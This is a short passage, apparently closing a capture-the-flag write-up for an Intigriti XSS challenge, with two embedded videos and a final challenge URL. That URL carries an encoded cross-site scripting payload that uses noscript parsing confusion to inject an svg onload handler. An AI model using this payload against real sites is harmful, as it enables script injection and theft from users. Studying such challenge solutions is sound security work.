 
You can watch these videos for more details:

<iframe width="560" height="315" src="https://www.youtube.com/embed/lG7U3fuNw3A?si=1fyZH3nzhe-nsMu-" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<iframe width="560" height="315" src="https://www.youtube.com/embed/gVrdE6g_fa8?si=HsuvpCHjssUx9RGy" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>


And finally here's the alert popup:

<https://challenge-1224.intigriti.io/index.php/view?title=ENDCI--%20%3Eaaaa%3Cnoscript%3E%3C%20a%20id%3D%27%3C%2Fnoscript%3E%3Csvg%2Fonload%3Dlocation%3Dname%3E%27%3E%3C%2Fnoscript%3E>

![image](https://gist.github.com/user-attachments/assets/05821e08-3cf7-4839-8970-975f1ffb4aa2)
